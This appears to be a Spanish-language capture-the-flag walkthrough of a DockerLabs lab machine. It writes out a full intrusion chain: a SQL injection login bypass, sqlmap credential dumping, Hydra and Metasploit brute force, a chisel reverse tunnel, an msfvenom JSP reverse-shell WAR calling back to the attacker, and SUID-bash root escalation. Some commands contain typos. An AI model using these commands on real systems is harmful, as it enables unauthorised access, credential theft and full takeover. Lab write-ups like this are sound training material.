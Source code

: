 nmap: 22,80

![image](https://github.com/user-attachments/assets/c7952ccc-1a71-4e0f-8171-57b0b65eff9f)

---

entramos a la pagina principal

![image](https://github.com/user-attachments/assets/5b370534-bdd8-4936-8f3f-2f41dd4890cf)


En el login de la pagina

![image](https://github.com/user-attachments/assets/08eeadc6-b8c7-451d-8990-0d9e60ec74bf)


probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![image](https://github.com/user-attachments/assets/f7d1bf36-5e3a-44ae-b6b6-610cded1346a)


probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![image](https://github.com/user-attachments/assets/5135f540-3545-4ba5-9d04-2dd87713d821)


ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![image](https://github.com/user-attachments/assets/763169fd-80d6-447c-be57-2bdafc6f3932)

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 

![image](https://github.com/user-attachments/assets/e52d80f1-af2d-4400-aa76-828e83f0f9d8)

entramos por el ssh

![image](https://github.com/user-attachments/assets/f7c0fa87-a2b7-41cd-a94f-e3c665e96fac)

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  

![image](https://github.com/user-attachments/assets/d19e416a-dacb-41fd-a87b-8d763cce1240)

![image](https://github.com/user-attachments/assets/f8951e5a-d763-411d-834c-04e1c4690a46)

el contenido de la nota: flowerpower
probé si era la contraseña pero no es
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención

![image](https://github.com/user-attachments/assets/78ebbd5b-efa2-49a3-84c4-9d4d57fd3244)

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![image](https://github.com/user-attachments/assets/426933b9-39c2-4449-a92d-6419d50b27e2)

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![image](https://github.com/user-attachments/assets/3951ac97-1b21-4dcd-b412-72d98c1db16e)

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/

![image](https://github.com/user-attachments/assets/ad125df8-1b3c-4920-9000-60a0dce2a4c8)

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app

![image](https://github.com/user-attachments/assets/a08c51e3-d37c-4724-b19f-e32878b0b8ce)

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"

![image](https://github.com/user-attachments/assets/1b98e90d-1784-408a-8e54-70d09ee51e97)

cargamos y a parecerá en la parte principal de la pagina como "rev"

![image](https://github.com/user-attachments/assets/6fa74400-6985-45c9-acfc-63e741031fdf)

ahora colocamos el terminal en escucha y nos conectamos

![image](https://github.com/user-attachments/assets/7d717caa-6b8f-4e36-bc13-f1d2bf9f5525)

luego de conectarme buscamos como llegar a root:

![image](https://github.com/user-attachments/assets/a5c2ada3-0d35-40ca-b1ca-5d58598a3596)

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

 ![[dockerlabs/dificil/crackoff/root.png]]

y al hace el bash -p seremos root!
